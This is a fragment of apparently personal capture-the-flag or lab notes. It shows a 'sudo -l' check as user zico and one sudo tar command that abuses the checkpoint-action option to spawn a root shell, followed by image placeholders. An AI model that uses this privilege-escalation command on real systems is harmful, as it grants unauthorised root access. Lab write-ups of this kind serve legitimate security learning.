sudo -l
as zico

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![[Pasted image 20210606180247.png]]

![[Pasted image 20210606180323.png]]